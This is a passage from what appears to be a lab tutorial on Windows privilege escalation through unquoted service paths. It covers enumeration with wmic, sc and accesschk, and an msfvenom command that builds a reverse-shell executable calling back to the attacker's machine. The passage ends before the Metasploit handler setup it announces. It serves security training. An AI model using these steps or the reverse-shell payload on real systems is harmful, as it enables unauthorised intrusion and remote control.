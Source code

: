 Knowing this, if we can place an executable in a location we know the service is looking for one, it may be run by the service. 

As you can understand, exploiting an unquoted service path vulnerability will require us to have write permissions to a folder where the service will look for an executable. 

**Finding Unquoted Service Path Vulnerabilities**

Tools like winPEAS and PowerUp.ps1 will usually detect unquoted service paths. But we will need to make sure other requirements to exploit the vulnerability are filled. These are;

1.  Being able to write to a folder on the path
2.  Being able to restart the service

If either of these conditions is not met, successful exploitation may not be possible. 

The command below will list services running on the target system. The result will also print out other information, such as the display name and path. 

`wmic service get name,displayname,pathname,startmode`

The command may show some Windows operating system folders. As you will not have "write" privileges on those with a limited user, these are not valid candidates.

Going over the output of this command on the target machine, you will notice that the "unquotedsvc" service has a path that is not written between quotes. 

Once we have located this service, we will have to make sure other conditions to exploit this vulnerability are met.

You can further check the binary path of this service using the command below: 

`sc qc unquotedsvc`

Once we have confirmed that the binary path is unquoted, we will need to check our privileges on folders in the path. Our goal is to find a folder that is writable by our current user. We can use accesschk.exe with the command below to check for our privileges.

`.\accesschk64.exe /accepteula -uwdq "C:\Program Files\"`

The output will list user groups with read (R) and write (W) privileges on the "Program Files" folder.

The accesschk binary is on the desktop of the target system (MACHINE_IP)
We now have found a folder we can write to. As this folder is also in the service's binary path, we know the service will try to run an executable with the name of the first word of the folder name. 

We can use msfvenom (on the AttackBox) to generate an executable. The command below will wrap Meterpreter in an executable file. 

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=[KALI or AttackBox IP Address] LPORT=[The Port to which the reverse shell will connect] -f exe > executable_name.exe`

The command above will generate a reverse shell. This means that it will try to connect back to our attacking machine. We will need to launch Metasploit and configure the handler to accept this connection. The terminal screen below shows a typical configuration. Please note that the LHOST value (attacking machine IP address, 10.9.6.195 in the example below) will be different and you may also change the LPORT (local port) if you have used a different port when generating the executable file. If the screen below seems unfamiliar, you can complete the Metasploit module to learn more about Metasploit. 
